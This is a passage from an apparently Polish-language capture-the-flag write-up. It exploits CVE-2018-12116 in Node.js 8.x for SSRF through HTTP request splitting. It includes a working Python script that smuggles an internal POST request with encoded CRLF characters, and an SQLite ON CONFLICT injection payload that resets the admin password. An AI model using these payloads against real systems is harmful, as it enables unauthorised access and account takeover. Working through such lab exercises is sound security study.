3. Ponieważ znamy wersję głównej bilioteki, które znajdują się w pliku `package.json`, postanowiłem poszukać podatności na te konkretne wersje. Zaczynam od nodejs wpisuję w google `nodejs 8.x cv` i otrzymuję [listę podatnośći](https://www.cvedetails.com/vulnerability-list.php?vendor_id=12113&product_id=30764&version_id=218757&page=1&hasexp=0&opdos=0&opec=0&opov=0&opcsrf=0&opgpriv=0&opsqli=0&opxss=0&opdirt=0&opmemc=0&ophttprs=0&opbyp=0&opfileinc=0&opginf=0&cvssscoremin=0&cvssscoremax=0&year=0&month=0&cweid=0&order=3&trc=14&sha=21abfa2a98170769e3b43f48ebf35db6ad0a1412)
4. Udaję mi się z listy 14 podatnośći odnaleźć tą która jest właśnie tym czego potrzebujemy (`CVE-2018-12116`)
5. Tego typu podatność nazywa się SSRF - Server Site Request Forgery i polega ono wykonywaniu zapytań jako serwer do innych zasobów, dzięki czemu uzyskujemy dostęp do wszystkich usług do których ma dostęp serwer. W naszym wypadku uzyskujemy dostęp do naszego serwer'a jak serwer co umożliwia nam atak.
6. Szukam dokładnego opisu tej podatności, natknąłem się na orginalne zgłoszenie błędu: `https://hackerone.com/reports/409943` - wykorzystana jest podatność jako że node natwynie korzysta z kodowanie `latina-1`, czyli ucina część wykraczając poza 2 bajty, czyli znak `u{0220}` zostanie przekształcony na `u{20}`(znak spacji), co więcej poprawnie przejdzie walidacje, co pozwoli nam w jednym requescie wykonać kolejne.
7. Wykorzystując ten fakt i znając składnie protokułu HTTP 1.1, napisałem skrypt automtyzujący cały proces
```python
from requests import *

URL = "http://138.68.189.41:32481"

def endpoint_payload(username, password):
    username = utils.quote(username)
    password = utils.quote(password)
    content_length = len(username) + len(password) + 19

    return """127.0.0.1/ HTTP/1.1
Host: 127.0.0.1

POST /register HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: {content_length}

username={username}&password={password}

GET /?qwe=""".format(content_length=content_length, username=username, password=password)

def ssrify(httpFormated):
    return httpFormated.replace("\n","\u010D\u010A").replace(" ","\u0120")

def request(username, password):
    payload = endpoint_payload(username, password)
    ssrf_payload = ssrify(payload)

    print(ssrf_payload)
    return post(URL + '/api/weather',json={'endpoint': ssrf_payload, 'city': 'warsaw', 'country': 'poland'})

res = request('admin',"password")

print(res.text)
```
8. Obchodząc to zabezpieczenie, możemy przejść do następnego czyli SQL INJECTION w formularz rejestracji. Analizując kod widzimy, że aby uzyskać flagę musimy się zalgować na konto administratora. Jeżeli nim mamy możliwości wstrzyknięcia kodu do logowania, musimy w jakiś sposób zaktualizować hasło konta `admin`.
9. Szukam w jaki sposób można wpisać wstrzyknać kod do dyrektywy INSERT, znajduję to źródło https://labs.detectify.com/2017/02/14/sqli-in-insert-worse-than-select/, lecz niestety nie działa, ponieważ jest to wersja dla DBMS MySQL, w pliku `database.js` odnajduję informację, że my korzystamy z bazy danych `sqlite`, szukam a więc odpowiednika i jest polecenie: `ON CONFLICT(ip) DO UPDATE SET hits = hits + 1;`
10. A więc query wygląda tak: `password') ON CONFLICT(username) DO UPDATE SET password = 'password';--`
11. Następnie należy je podać w pole password funkcji `request`, zalogować się nowymi danymi, i ukaże nam się flaga.
12. Rezultat: 